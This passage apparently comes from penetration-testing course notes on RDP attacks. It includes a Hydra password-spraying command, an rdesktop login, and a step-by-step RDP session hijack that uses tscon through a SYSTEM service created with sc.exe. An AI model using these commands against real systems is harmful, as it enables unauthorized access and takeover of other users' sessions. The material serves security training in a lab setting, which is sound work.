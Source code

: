 Hydra - RDP Password Spraying

```shell
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

RDP Login

```shell
rdesktop -u admin -p password123 192.168.2.143
```

### Protocol Specific Attacks

#### RDP Session Hijacking

To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session). So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:

```shell
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```shell
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

To run the command, we can start the `sessionhijack` service :

```shell
C:\htb> net start sessionhijack
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.

> [!NOTE]
> _Note: This method no longer works on Server 2019._

### RDP Pass-the-Hash (PtH)
